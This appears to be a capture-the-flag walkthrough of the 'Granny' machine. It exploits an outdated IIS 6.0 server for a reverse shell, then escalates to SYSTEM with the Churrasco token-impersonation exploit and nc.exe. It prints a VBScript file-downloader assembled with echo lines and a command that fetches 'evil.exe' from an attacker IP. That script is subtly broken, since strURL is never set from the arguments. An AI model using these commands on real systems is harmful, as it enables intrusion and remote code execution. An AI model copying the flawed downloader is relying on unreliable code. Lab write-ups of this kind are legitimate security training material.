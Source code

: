 # Granny

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (7) (3).png" alt=""><figcaption></figcaption></figure>

### IIS 6.0

This machine is running an outdated version of Microsoft IIS, which is vulnerable to a RCE exploit.

{% embed url="https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell" %}

Using this, we can gain a reverse shell easily:

<figure><img src="../../../.gitbook/assets/image (30) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (5).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Churrasco

We can enumerate the machine using `systeminfo`.

<figure><img src="../../../.gitbook/assets/image (15) (5).png" alt=""><figcaption></figcaption></figure>

This is a really old version of Windows that is outdated and vulnerable to loads of exploits. One exploit is the Churrasco exploit, which works on Windows Server 2003 machines. However, because this machine was so old, it was hard to transfer files over to it using conventional Windows methods.&#x20;

So, we would need to create a `wget` binaruy using vbs.&#x20;

```powershell
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
# Afterwards, you can run this.
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
```

Afterwards, we can download the binary from here:

{% embed url="https://github.com/Re4son/Churrasco/raw/master/churrasco.exe" %}

The exploit works through impersonating the SYSTEM user to execute commands by stealing the tokens from the worker processes run by the SYSTEM user.&#x20;

The exploit can be used to gain a reverse shell easily via `nc.exe`:

<figure><img src="../../../.gitbook/assets/image (10) (5).png" alt=""><figcaption></figcaption></figure>

A listener port would have a shell as SYSTEM after execution.
